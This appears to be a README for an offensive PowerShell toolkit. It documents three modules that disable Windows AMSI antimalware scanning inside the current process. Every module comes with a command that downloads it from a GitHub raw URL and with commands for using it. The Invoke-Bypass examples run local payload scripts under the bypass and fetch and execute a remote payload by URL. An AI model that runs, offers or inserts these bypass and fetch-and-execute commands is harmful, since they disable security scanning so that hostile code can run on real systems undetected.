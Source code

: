 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name .\AMSBP.ps1 -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|4 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name .\Disable-Amsi.ps1 -Force
Disable-Amsi -DontDisableBlockLogging
```   

<br />

## Module Name
   <b><i>Invoke-Bypass.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process using well<br />known techniques</i></b>|User Land|4 bypass technics available|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

```powershell      
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "2"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "4" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
